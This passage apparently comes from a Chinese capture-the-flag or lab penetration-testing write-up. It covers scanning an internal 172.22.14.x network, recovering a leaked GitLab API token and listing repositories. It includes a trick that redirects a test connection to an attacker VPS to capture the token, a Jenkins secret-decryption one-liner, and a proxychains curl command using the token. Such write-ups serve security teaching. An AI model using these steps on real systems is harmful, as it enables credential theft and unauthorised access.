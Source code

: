 ```bash
[*] WebTitle: http://172.22.14.16:8060  code:404 len:555    title:404 Not Found
[*] WebTitle: http://172.22.14.46       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.14.16       code:302 len:99     title:None 跳转 url: http://172.22.14.16/users/sign_in
[*] WebTitle: http://172.22.14.7        code:200 len:54603  title:XR SHOP
[*] WebTitle: http://172.22.14.16/users/sign_in code:200 len:34961  title:Sign in · GitLab
[+] http://172.22.14.7/www.zip poc-yaml-backup-file
```

## 代理搭建

[![](assets/1706233449-08a5feacfa2a48bcad09d80dd17463e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143439-a6284be0-ba82-1.png)

## 攻击域成员一 (Gitlab API Token 泄露)

### 获取 API Token

而后根据题目描述，我们去寻找设置的 Gitlab API Token，在网页中可以找到

[![](assets/1706233449-7d9d50f39bd935fb33c475db419dc8e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143447-ab2f1c7c-ba82-1.png)

得到`{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}`，但这明显是一个加密后的结果，我们需要对它进行解密，这里有两种方法

一是用网页的`project`接口的 gitlab 测试功能，将 url 改成我们的 VPS 监听端口，然后可以收到`PRIVATE-TOKEN`，这个后面的值就是真正的 API-TOKEN

[![](assets/1706233449-f8ac8e6bf2fde132c48c6b63ea6df1ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143455-b0306bae-ba82-1.png)

得到`glpat-7kD_qLH2PiQv_ywB9hz2`

二是我们可以使用命令行进行直接解密，具体指令如下

```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```

[![](assets/1706233449-ee7fa87731ef53edc3f68c596ad33434.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143502-b3e7ae10-ba82-1.png)

### 探测 git 仓库内容

在刚刚 fscan 扫描中我们可以看到

```bash
[*] WebTitle: http://172.22.14.16/users/sign_in code:200 len:34961  title:Sign in · GitLab
```

因此`172.22.14.16`这个就是 Gitlab 的部署站，仓库的通用接口是`api/v4/projects/`，这里带上刚刚的 token 访问就可以，指令如下

```bash
proxychains curl --silent --header "PRIVATE-TOKEN: glpat-7kD_qLH2PiQv_ywB9hz2"  "http://172.22.14.16/api/v4/projects/" | jq | grep "http_url_to_repo"
```

